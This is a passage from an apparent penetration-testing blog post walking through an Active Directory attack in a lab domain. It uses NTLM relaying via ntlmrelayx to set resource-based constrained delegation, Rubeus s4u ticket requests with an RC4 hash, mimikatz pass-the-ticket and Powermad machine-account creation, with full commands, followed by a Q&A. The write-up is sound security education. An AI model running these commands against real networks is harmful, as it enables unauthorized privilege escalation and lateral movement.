

Mimikatz can pass the ticket, but our `cifs` and `http` tickets aren't valid for RDP, we need a `termsrv` ticket. So similar to before, we request one with Rubeus.

    .\Rubeus.exe s4u /user:LUJCDPUQ$ /impersonateuser:lkys /msdsspn:"cifs/ws02.lab.local" /ptt /rc4:3116C16787230147050F6835AFBF5EDF /altservice:termsrv

We open mimikatz and list the tickets. As we can see, it's been imported into the cache by the above commands so we don't have to import it "again". See the section below this one if you want to do exactly that.

    .\mimikatz.exe
    kerberos::list



Now start an RDP session with `restrictedadmin` which should in theory use the `termsrv` ticket that is cached

    process::start "mstsc /restrictedadmin /v:ws02.lab.local"



But it does not appear to work, and I spent quite a lot of time researching this without getting to the bottom of it. It appears that RDP requires a TGT, which we don't have to request a `termsrv` ticket of its own, and since we simply don't have that it fails to authenticate. I even initiated some dialogue with Benjamin Delpy about this on [Twitter](https://twitter.com/chryzsh/status/1107751511583543296).

I did also try to find a way to do WMI remote code execution from Windows using a service ticket, but could not figure out any working method. **Ideas on any of the two? Please message me on Twitter.**

### SPN to service mappings

For the record, here is a reference for tickets necessary for different types of access
[Exhaustive list at Adsecurity](https://adsecurity.org/?page_id=183)

### Speeding up the attack

If the attack is spending a lot of time enumerating privileges and such, we can speed it up by disabling a few features in `ntlmrelayx`. This also ensures we are not executing other attacks like trying to add domain admins or perform ACL modifications.

    ntlmrelayx.py -t ldaps://dc01.lab.local --delegate-access --no-smb-server -wh attacker-wpad-no-dump --no-da --no-acl --no-validate-privs

### Exporting the ticket from Linux to Windows

If we want to import ticket to Windows without redoing the s4u.

First, export the ticket to a kirbi file that can be used with Mimikatz using [KrbCredExport](https://github.com/rvazarkar/KrbCredExport).

    python KrbCredExport/KrbCredExport.py lkys.ccache lkys.kirbi



Transfer the ticket over to the Windows host, and import the ticket into the session with mimikatz.

Can now access the target `c$` share



### Performing the attack manually

This requires that we have a user with `GenericWrite` rights over the machine account for the computer we are targeting. By default, domain user accounts will not have that unless they are the Creator of the machine account. Harmj0y posted a [gist](https://gist.github.com/HarmJ0y/224dbfef83febdaf885a8451e40d52ff) on how to do this.

### Domain controller doesn't have a certificate for LDAP

It could be LDAPS is simply not configured, which means there is no certificate installed for LDAP on the domain controller. This is what is looks like if we try to add a machine account using ntlmrelayx with relaying to LDAP without TLS.



If we somehow already have access to a domain user, we can get around this by adding a machine account manually with [Powermad](https://github.com/Kevin-Robertson/Powermad). This works over LDAP without TLS because Windows will use GSSAPI signing and sealing if required, which also encrypts the packets. This is different than LDAPS, because signing and/or sealing is not performed when relaying because the negotiated session key can't be obtained. Thanks for this clarification, @elad_shamir and @dirkjanm!

    New-MachineAccount -MachineAccount test -Domain lab.local -DomainController dc01.lab.local -Credential chry



Note that above I need to specify a domain context using a domain user, because I was executing the script from a non-domain joined machine.

Now when doing the relaying, specify to use the newly created machine account with the `—escalate-user` parameter followed by the machine account we added. Note here that we specify `ldap` and not `ldaps`.

    ntlmrelayx.py -t ldap://dc01.lab.local --delegate-access --no-smb-server -wh attacker-wpad --no-da --no-acl --no-validate-privs --escalate-user test$



Once the attack has been performed, the computer we targeted should have the account we added in the `PrincipalsAllowedToDelegateToAccount` attribute, in addition to the machine account which was created when I executed the attack earlier.

`Get-ADComputer WS02 -Properties PrincipalsAllowedToDelegateToAccount`



And from here we can request a ticket like before and execute the rest of the attack.

## Questions

### 1 - Are we relaying the domain user or machine account?

What we relay here is the machine account credentials, **not** the user credentials like with WPAD relaying attacks on IPv4. This confused me in the beginning, so I just wanted to make that abundantly clear.

### 2- Can we configure delegation for a domain user in our control?

No, we can't simply tell the DC to set the delegation privileges on the computer object to our domain user, because that user has no SPN, so `s4u` would not work. The domain user does not have the necessary privileges to configure an SPN on itself either, as this would allow any user to turn itself into a service account.

I did some experiments with this with another user I created, and while you can configure delegation privileges on the computer object, the user account doesn't have an SPN so Kerberos will simply say it can't find the SPN during the `s4u2self` process.



### 3 - Can't we capture and relay SMB?

It is not possible to relay credentials from SMB to other protocols. That's simply a protection integrated in Microsoft's implementation of SMB authentication. dirkan wrote about this in the bottom half of his [PrivExchange article](https://dirkjanm.io/abusing-exchange-one-api-call-away-from-domain-admin/).

Update: vulnerabilities were published in 2019 that shows the bypass of NTLM relaying mitigations like SMB signing. Using a combination of these vulnerabilities, it is possible to relay SMB authentication to LDAP. See [@dirkjanm's article](https://dirkjanm.io/exploiting-CVE-2019-1040-relay-vulnerabilities-for-rce-and-domain-admin/) for more details

### 4 - Can't we capture and relay HTTP/WebDAV?

While you can relay credentials from HTTP/WebDAV to LDAP through tricks like dropping lnk files, those won't relay the machine account credentials, only user account that accesses them. If you can find another way to get a machine account to contact you, that would work. That is basically what [PrivExchange](https://chryzsh.github.io/exploiting-privexchange/) does.

### 5 - Can we do it over IPv4?

Microsoft has patched the protocol fallback from DNS with [MS16-077](https://docs.microsoft.com/en-us/security-updates/securitybulletins/2016/ms16-077) where they removed both WPAD config broadcasts and automatic authentication to proxies. ~~The patch does not apply to IPv6, apparently.~~

Note: I misunderstood this earlier and had a big a-ha moment when I reread the [mitm6 blog](https://blog.fox-it.com/2018/01/11/mitm6-compromising-ipv4-networks-via-ipv6/). The patch indeed applies to IPv6, and the way mitm6 bypasses this patch is by letting the victim connect to the proxy, then prompt it for authentication by replying to it with `HTTP 407 Proxy Authentication` instead of the normal `HTTP 401` code.

### 6 - Can we execute it without relaying?

Yes and no. There are a few possible scenarios here depending on your current level of access. The strict requirement for the attack access to an account with an SPN, and being able to configure resource-based constrained delegation on a computer object. As demonstrated in this article, both can be achieved by relaying a machine account's credentials. Note that all attacks using these properties still require access to a Linux box on the network.

#### Scenario 0 - Nothing new

- Access to low privilege user
- `Machineaccountquota` > 0

If we already have access to a low privilege user account, we can manually create a machine account, pop a shell with it's context, but not configure delegation for the computer object of your victim. Consequently, this does not acquire you anything you can't get with network access only. The only exception being that you might have a way to remotely reboot your target machine, but this is not a common scenario.

#### Scenario 1 - Local Privilege Escalation

- Access to host as low privilege user
- `Machineaccountquota` > 0

This one is slightly more interesting as you can gain local privilege escalation by rebooting the target host. If you are a penetration tester and wish to demonstrate how your client is vulnerable, ask for a laptop, a low privilege user account and recreate this attack.

### Further work

#### Executing attacks from Windows hosts only

[egre55](https://egre55.github.io) and I have been talking about the possibility of porting some of these tools to Windows binaries to possible execute the discussed attacks as a low or high privileged user in an AD domain. That would make these attack primitives even more dangerous from a defense perspective than the current scenario that requires root access to a Linux box on the same network.

#### Executing similar attacks using IPv4

There have been many PoCs for such attacks, but they often have more strict requirements to fully work. I might publish a blog post detailing such attacks.

## Links

- [The worst of both worlds: Combining NTLM Relaying and Kerberos delegation](https://dirkjanm.io/worst-of-both-worlds-ntlm-relaying-and-kerberos-delegation/)
- [Wagging the Dog: Abusing Resource-Based Constrained Delegation to Attack Active Directory](https://eladshamir.com/2019/01/28/Wagging-the-Dog.html)
- [mitm6 - compromising IPv4 networks via IPv6](https://blog.fox-it.com/2018/01/11/mitm6-compromising-ipv4-networks-via-ipv6/)
- [List of SPNs at adsecurity.org](https://adsecurity.org/?page_id=183)
- [Kerberos Delegation, SPNs and More](https://www.secureauth.com/blog/kerberos-delegation-spns-and-more)